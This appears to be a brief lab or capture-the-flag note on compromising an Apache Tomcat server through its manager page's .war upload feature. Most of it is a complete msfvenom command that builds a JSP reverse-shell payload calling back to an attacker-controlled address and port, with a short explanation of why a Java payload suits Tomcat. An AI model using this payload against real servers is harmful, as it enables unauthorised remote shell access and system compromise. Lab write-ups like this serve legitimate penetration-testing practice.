


msfvenom .war reverse shell
on manager page after login there is an upload feature on the webserver that allows .war uploads
Note: make sure its a java/jsp_reverse_tcp payload for war files because tomcat servers are run .war files that run java payloads
we're going to use msfvenom to generate a reverse shell payload written in .war, find payloads to this and more here


msfvenom -p java/jsp_shell_reverse_tcp -f war LHOST=10.10.14.62 LPORT=9876 -o newshell.war